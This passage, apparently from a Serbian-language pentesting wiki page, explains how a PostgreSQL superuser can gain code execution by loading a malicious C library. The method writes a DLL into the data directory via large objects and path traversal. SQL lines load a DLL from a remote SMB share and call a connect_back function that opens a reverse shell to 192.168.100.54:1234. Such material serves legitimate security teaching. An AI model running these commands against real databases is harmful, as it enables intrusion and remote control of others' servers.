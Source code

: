 ```c

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum dummy_function(PG_FUNCTION_ARGS);

PG_FUNCTION_INFO_V1(add_one);

Datum dummy_function(PG_FUNCTION_ARGS)
{
int32 arg = PG_GETARG_INT32(0);

PG_RETURN_INT32(arg + 1);
}
```

Obratite pažnju kako je u ovom slučaju **zlonamjeran kod unutar funkcije DllMain**. To znači da u ovom slučaju nije potrebno izvršiti učitanu funkciju u postgresql-u, samo **učitavanje DLL-a** će **izvršiti** obrnutu ljusku:

```c
CREATE OR REPLACE FUNCTION dummy_function(int) RETURNS int AS '\\10.10.10.10\shared\dummy_function.dll', 'dummy_function' LANGUAGE C STRICT;
```

### RCE u najnovijim verzijama Postgresa

U **najnovijim verzijama** PostgreSQL-a, uvedena su ograničenja koja **onemogućavaju** `superuser`-u da **učitava** deljene biblioteke izuzev iz određenih direktorijuma, kao što su `C:\Program Files\PostgreSQL\11\lib` na Windowsu ili `/var/lib/postgresql/11/lib` na \*nix sistemima. Ovi direktorijumi su **zaštićeni** od operacija pisanja od strane korisnika NETWORK\_SERVICE ili postgres.

Uprkos ovim ograničenjima, moguće je da autentifikovani `superuser` baze podataka **piše binarne fajlove** na fajl sistem koristeći "large objects". Ova mogućnost se proširuje na pisanje unutar direktorijuma `C:\Program Files\PostgreSQL\11\data`, što je neophodno za operacije baze podataka kao što su ažuriranje ili kreiranje tabela.

Značajna ranjivost nastaje iz komande `CREATE FUNCTION`, koja **omogućava prolazak kroz direktorijume** do data direktorijuma. Kao rezultat toga, autentifikovani napadač može **iskoristiti ovaj prolazak** da bi napisao deljenu biblioteku u data direktorijum, a zatim je **učitao**. Ovaj napad omogućava napadaču izvršavanje proizvoljnog koda, postižući izvršavanje izvornog koda na sistemu.

#### Tok napada

Prvo, morate **koristiti large objects za otpremanje dll fajla**. Možete videti kako to uraditi ovde:

{% content-ref url="big-binary-files-upload-postgresql.md" %}
[big-binary-files-upload-postgresql.md](big-binary-files-upload-postgresql.md)
{% endcontent-ref %}

Nakon što ste otpremili ekstenziju (sa nazivom poc.dll za ovaj primer) u data direktorijum, možete je učitati sa:

```c
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
select connect_back('192.168.100.54', 1234);
```
